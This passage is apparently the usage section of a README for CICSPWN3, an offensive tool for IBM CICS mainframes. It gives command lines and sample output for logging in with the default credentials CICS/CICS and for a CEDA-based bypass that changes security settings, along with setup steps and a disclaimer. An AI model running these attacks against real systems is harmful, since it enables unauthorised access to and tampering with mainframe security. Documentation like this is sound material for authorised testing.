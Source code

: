### Default Credentials Exploit

**Command**:
```bash
python main.py --target 192.168.1.1 --exploit-default-creds --user CICS --password CICS
```

**Expected Output**:
```plaintext
2025-01-22 20:10:00 [INFO] Attempting default credentials: CICS/CICS
2025-01-22 20:10:02 [INFO] Successfully exploited default credentials!
```

---

### Security Bypass via CEDA

**Command**:
```bash
python main.py --target 192.168.1.1 --bypass
```

**Expected Output**:
```plaintext
2025-01-22 20:15:00 [INFO] Attempting security bypass via CEDA.
2025-01-22 20:15:02 [INFO] CEDA transaction executed successfully.
2025-01-22 20:15:03 [INFO] Security settings changed successfully.
```

---

## Technical Manual

### Installation & Setup

1. Install Python 3.8+.
2. Clone or download all files into the same directory.
3. Install any required dependencies (if any).

### Running the Program

- Interactive Mode:
  ```bash
  python main.py --interactive --target 192.168.1.1
  ```

- Command-Line Mode:
  ```bash
  python main.py --target 192.168.1.1 --bypass
  ```

---

## Support & Legal Disclaimer

**Use responsibly** on systems you own or have explicit permission to test. The authors are not responsible for misuse.

--- 

This document provides a comprehensive guide for using and understanding CICSPWN3. Let me know if you need further details!